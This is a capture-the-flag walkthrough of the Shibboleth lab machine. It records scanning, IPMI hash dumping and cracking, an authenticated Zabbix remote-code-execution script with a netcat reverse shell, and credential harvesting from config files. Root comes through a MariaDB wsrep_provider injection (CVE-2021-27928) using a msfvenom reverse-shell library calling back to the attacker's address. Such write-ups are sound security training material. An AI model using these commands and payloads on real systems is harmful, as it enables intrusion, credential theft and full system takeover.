










## RUSTSCAN:

```Bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shibboleth.htb/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (92%), Android 4.4.0 (92%), Linux 4.15 - 5.6 (91%), Cisco CP-DX80 collaboration endpoint (Android) (90%), Linux 3.6 - 3.10 (90%), Linksys EA3500 WAP (90%), Linux 2.6.32 (90%), Linux 5.0 - 5.3 (90%), Websense Content Gateway (90%), Linux 5.3 - 5.4 (90%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=5/2%OT=80%CT=%CU=32719%PV=Y%DS=2%DC=T%G=N%TM=6450F12E%P=x86_64-pc-linux-gnu)
SEQ(SP=109%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=Y%T=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

* * *

## HTTP:

Good so far seems like only one service is available on the machine which can be our only way to get our foot hold and grab user/root flag.

So far trying to login manually on the website we are presented with a pretty normal page:


Checkin manually for possible lefovers in the HTML sourcecode didn't showd up anything special except some indication about technologies that are used on the machine?



I will run FFUF tool and fuzz around to see if we can find some DNS subdomains/vhost on the machine:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://shibboleth.htb -H "Host:FUZZ.shibboleth.htb" -fl 10

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://shibboleth.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.shibboleth.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

[Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 45ms]
    * FUZZ: monitor

[Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 54ms]
    * FUZZ: monitoring

[Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 47ms]
    * FUZZ: zabbix

:: Progress: [19966/19966] :: Job [1/1] :: 980 req/sec :: Duration: [0:00:21] :: Errors: 0 ::
```

Checking on main website and fuzzing for web directories didn't show anything important:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u 'http://shibboleth.htb'

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_shibboleth.htb/_23-05-02_13-32-03.txt

Target: http://shibboleth.htb/

[13:32:03] Starting:
[13:32:05] 403 -  279B  - /.ht_wsr.txt
[13:32:05] 403 -  279B  - /.htaccess.bak1
[13:32:05] 403 -  279B  - /.htaccess.save
[13:32:05] 403 -  279B  - /.htaccess.orig
[13:32:05] 403 -  279B  - /.htaccess_extra
[13:32:05] 403 -  279B  - /.htaccess.sample
[13:32:05] 403 -  279B  - /.htaccess_orig
[13:32:05] 403 -  279B  - /.htaccess_sc
[13:32:05] 403 -  279B  - /.htaccessBAK
[13:32:05] 403 -  279B  - /.htaccessOLD
[13:32:05] 403 -  279B  - /.htaccessOLD2
[13:32:05] 403 -  279B  - /.htm
[13:32:05] 403 -  279B  - /.html
[13:32:05] 403 -  279B  - /.htpasswds
[13:32:05] 403 -  279B  - /.httr-oauth
[13:32:05] 403 -  279B  - /.htpasswd_test
[13:32:06] 403 -  279B  - /.php
[13:32:17] 301 -  317B  - /assets  ->  http://shibboleth.htb/assets/
[13:32:17] 200 -  483B  - /assets/
[13:32:19] 200 -  253B  - /changelog.txt
[13:32:26] 301 -  316B  - /forms  ->  http://shibboleth.htb/forms/
[13:32:40] 200 -  156B  - /Readme.txt
[13:32:42] 403 -  279B  - /server-status/
[13:32:42] 403 -  279B  - /server-status

Task Completed
```

The only one that cached my attention is that /form web directories but then nothing interesting have been found so far:



* * *

## Subdomains*:

So far I think the party is on those 3* subdomains we have found out , so I manually surf to those 3 and seems like Monitor, Monitoring and Zabbix seems like they are pointing to same website?



I will work on Zabbix and then move forward to others if this is not helping out. Now first step is to identity that version of Zabbix monitoring service and clicking on "Help" we are redirected to support wiki pointing to macro version 5.0:



I tried to use default `Admin:zabbix` credentials but they are not working so far. Googling seems like a RCE is available(Authenticated) which means we have first to find a set of valid crednetials to login into zabbix: https://www.exploit-db.com/exploits/50816

But then I checked for tips and apparently I had to go back on what I found before on footer:


That BMC thingy and from machine tags IPMI:



And here as usual I will link some tips on how to enumerate the service(link from BookHacktricks): https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi

And here checking the version:

```Bash
msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Good IPMI version 2.0 is available and apparently from same url there are several MSF modules and other tools that I can use to grab more information. Linking to this: https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-authentication-bypass-via-cipher-0

```Bash
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > run

[*] Sending IPMI requests to 10.10.11.124->10.10.11.124 (1 hosts)
[+] 10.10.11.124:623 - IPMI - VULNERABLE: Accepted a session open request for cipher zero
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Good is vulnerable to Cypher zero aka cleartext authentication with any password but then it didn't worked out:


I mopved along and tried the RAKP hashed password and gotn something back:

```Bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:ee9303ce8202000031c4a49538e6e250b6d9131abb171bfc36bf3acfd0bf5307b3309110b9917eafa123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:efdc189b5b41c39f7e63308cd83e2de613cb0ed4
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

But John couldn't crack it:



Ok here again I had to search harder, basically Hashcat had a mode specific for this type of hash:


And giving the right hashmode we have a password baby:

```Bash
Host memory required for this attack: 3 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

9b34d48182070000fe9006a3bf2c6f8a8ec2b1d002c2d001b81e805aa63accf4740dbd82056ecfaea123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:13a475a3be9e04efaafc4b5e51050cc37921d32a:ilovepumkinpie1

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7300 (IPMI2 RAKP HMAC-SHA1)
Hash.Target......: 9b34d48182070000fe9006a3bf2c6f8a8ec2b1d002c2d001b81...21d32a
Time.Started.....: Tue May  2 14:32:39 2023 (2 secs)
Time.Estimated...: Tue May  2 14:32:41 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  3618.1 kH/s (0.48ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 7397376/14344385 (51.57%)
Rejected.........: 0/7397376 (0.00%)
Restore.Point....: 7391232/14344385 (51.53%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: ilovesky5 -> ilovemymum64.

Started: Tue May  2 14:32:36 2023
Stopped: Tue May  2 14:32:42 2023
```

And then trying out that password with some default usernames finally gave me access to the portal with `Administrator:ilovepumkinpie1`



* * *

## Road to Local.txt:

Now that we have access to the portal I guess we have to find a way to get a RCE so we can move forward... Then I decided to try out that payload from Exploit DB so I downloaded the payload filled up with my info as IP, NC port etc and run the command:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# python3 zabbix_rce.py  'http://monitoring.shibboleth.htb/' 'Administrator' 'ilovepumkinpie1' '10.10.14.7' 5555
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[+] the payload has been Uploaded Successfully
[+] you should find it at http://monitoring.shibboleth.htb//items.php?form=update&hostid=10084&itemid=33617
[+] set the listener at 5555 please...
[?] note : it takes up to +1 min so be patient :)
[+] got a shell ? [y]es/[N]o: y
Nice !
```

Then clicking on that link we got from payload:



That basically invoked a revshell baby!

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.124] 39430
sh: 0: can't access tty; job control turned off
$
```

On first sight seems like we are logged in as Zabbix but we have to switch to ipmi-svc user to get user.txt flag(root will be for another time):



here will I start by poking around manually, I see that nothing interesting is under var/www/html so I will move forward to /etc/zabbix and check what can we find from configuration folder?



So far from main config:

```Bash
### Option: TLSPSKFile
#       Full pathname of a file containing the pre-shared key.
#
# Mandatory: no
# Default:
# TLSPSKFile=
TLSPSKFile=/etc/zabbix/peeesskay.psk

zabbix@shibboleth:/etc/zabbix$ cat pee
cat peeesskay.psk
35d5bc231a5d423894e2d3326a24d280
```

So far not sure if that psk can be used as password for the other user as all other condfiguration files didn't worked out I will upload Linpeas and check what other comes along... Edit my WSL doesn't let me uploadanything cause WSL sucks so no Linpeas.

Then I checked again and apparently i could reuse the same password as before to login to that username..

```Bash
zabbix@shibboleth:/home$ ls
ls
ipmi-svc
zabbix@shibboleth:/home$ ls
ls
ipmi-svc
zabbix@shibboleth:/home$ su ipmi-svc
su ipmi-svc
Password: ilovepumkinpie1

ipmi-svc@shibboleth:/home$ ls
ls
ipmi-svc
ipmi-svc@shibboleth:/home$ cd i
cd ipmi-svc/
ipmi-svc@shibboleth:~$ ls
ls
user.txt
ipmi-svc@shibboleth:~$ cat us
cat user.txt
```

Grab your first flag and profit!

* * *

## Road to Root.txt:

On first sight seems like svc user can't any sudo command so I have to check what other can we do?

Since I have always problems to run any python suimple https server from my WSL on work I came back home and by using my full Kali host I uploaded both PSPY and LINPEAS so now I can do a full system enumeration...

```Bash
ipmi-svc@shibboleth:/tmp$ ls -al
ls -al
total 3872
drwxrwxrwt 13 root     root        4096 May  2 16:24 .
drwxr-xr-x 19 root     root        4096 Oct 16  2021 ..
prw-rw-r--  1 zabbix   zabbix         0 May  2 16:24 f
drwxrwxrwt  2 root     root        4096 May  2 16:14 .font-unix
drwxrwxrwt  2 root     root        4096 May  2 16:14 .ICE-unix
-rwxrwxr-x  1 ipmi-svc ipmi-svc  827827 Nov 27 09:47 linpeas.sh
-rwxrwxr-x  1 ipmi-svc ipmi-svc 3078592 Nov 27 09:47 pspy64
```

Starting with Linpeas this is what juicy have I found:

```Bash
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31

╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588

╔══════════╣ MySQL version
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
MySQL user: root


╔══════════╣ Analyzing Zabbix Files (limit 70)
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/sn
```

Ok so basically not much except that Zabbix db where we can maybe get some juicy stuuf out of it.

I will try to login and check what can I get out of it, and we are in sir!

```Bash
ipmi-svc@shibboleth:/tmp$ mysql -u zabbix -p zabbix
mysql -u zabbix -p zabbix
Enter password: bloooarskybluh

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 466
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [zabbix]>
```

And we can grab some hashes:

```Bash
MariaDB [zabbix]> select * from users;
select * from users;
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+---------------+---------------+---------------+
| userid | alias         | name         | surname       | passwd                                                       | url | autologin | autologout | lang  | refresh | type | theme      | attempt_failed | attempt_ip    | attempt_clock | rows_per_page |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+---------------+---------------+---------------+
|      1 | Admin         | Zabbix       | Administrator | $2y$10$L9tjKByfruByB.BaTQJz/epcbDQta4uRM/KySxSZTwZkMGuKTPPT2 |     |         0 | 0          | en_GB | 60s     |    3 | dark-theme |              0 | 192.168.139.9 |    1619285020 |            50 |
|      2 | guest         |              |               | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |     |         0 | 15m        | en_GB | 30s     |    1 | default    |              0 |               |             0 |            50 |
|      3 | Administrator | IPMI Service | Account       | $2y$10$FhkN5OCLQjs3d6C.KtQgdeCc485jKBWPW4igFVEgtIP3jneaN7GQe |     |         0 | 0          | en_GB | 60s     |    2 | default    |              0 | 10.10.14.7    |    1683040631 |            50 |
+--------+---------------+--------------+---------------+--------------------------------------------------------------+-----+-----------+------------+-------+---------+------+------------+----------------+---------------+---------------+---------------+
3 rows in set (0.000 sec)
```

The hashcracking is taking a while which may indicate that I'm on the wrong path, anyway i decide to run pspy and check what can we see more:

```Bash
2023/05/02 16:50:43 CMD: UID=0    PID=23026  | /lib/systemd/systemd-udevd 
2023/05/02 16:50:43 CMD: UID=???  PID=23025  | ???
2023/05/02 16:50:43 CMD: UID=0    PID=23024  | /lib/systemd/systemd-udevd 
2023/05/02 16:50:43 CMD: UID=0    PID=23023  | /lib/systemd/systemd-udevd 
2023/05/02 16:50:43 CMD: UID=0    PID=23022  | 
2023/05/02 16:50:51 CMD: UID=0    PID=23046  | /bin/bash /root/scripts/mysqlcheck 
2023/05/02 16:50:51 CMD: UID=0    PID=23049  | /lib/systemd/systemd-udevd 
2023/05/02 16:50:51 CMD: UID=0    PID=23048  | /lib/systemd/systemd-udevd 
2023/05/02 16:50:51 CMD: UID=0    PID=23047  | timeout --signal=SIGINT 1 /usr/bin/mysql -e SELECT 1 
2023/05/02 16:50:51 CMD: UID=0    PID=23063  | /usr/bin/mysql -e SELECT 1
```

Again here nothing much so I went back and checked for tips and apparently that specifc version of Maria/MYSql is suscettible to command injection: https://github.com/Al1ex/CVE-2021-27928

Now here it was trivilal to know it from Linpeas since it didn't checked for installed version since we don't have root permission to list all installed packages:

```Bash
//Proof that Linpeas couldn't find it
ipmi-svc@shibboleth:/tmp$ ./linpeas.sh | grep maria
./linpeas.sh | grep maria
. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . root        1168  0.8  3.3 1729044 133028 ?      Sl   16:14   0:24  _ /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock
ipmi-svc   25178  0.0  0.0   8904   672 pts/1    S+   17:04   0:00  |                       _ grep --color=auto maria
Sorry, try again.
From '/etc/mysql/mariadb.conf.d/50-server.cnf' Mysql user: user                    = root
!includedir /etc/mysql/mariadb.conf.d/
-rw-r--r-- 1 root root 869 Oct 12  2020 /etc/mysql/mariadb.cnf
!includedir /etc/mysql/mariadb.conf.d/
find: ‘/var/lib/mysql/zabbix’: Permission denied
lrwxrwxrwx 1 root root 22 Apr 24  2021 /etc/alternatives/my.cnf -> /etc/mysql/mariadb.cnf
-rwxr-xr-x 1 root root 37509 Mar 12  2020 /usr/bin/wsrep_sst_mariabackup
-rw-r--r-- 1 root root 348 Mar 12  2020 /usr/share/man/man1/wsrep_sst_mariabackup.1.gz
ipmi-svc@shibboleth:/tmp$
```

Nevermind! Going on with MariasDB CVE:

- I will create a MSFVenom payload

```Bash
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=6666 -f elf-so -o CVE-2021-27928.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: CVE-2021-27928.so
```

- Then upload the payload on the machine via wget and Python Simple http server
- Setup a NC listener
- Setup the payload on the machine

```Bash
//On victim
ipmi-svc@shibboleth:/tmp$ 

ipmi-svc@shibboleth:/tmp$ mysql -u zabbix -p -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
<ET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
Enter password: bloooarskybluh

ERROR 2013 (HY000) at line 1: Lost connection to MySQL server during query
ipmi-svc@shibboleth:/tmp$ 


//On our machine
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.124] 37714
id
uid=0(root) gid=0(root) groups=0(root)
pwd
/var/lib/mysql
cd /home
ls
ipmi-svc
cd /root
ls
root.txt
scripts
```

And lastly get last last flag and PROFIT!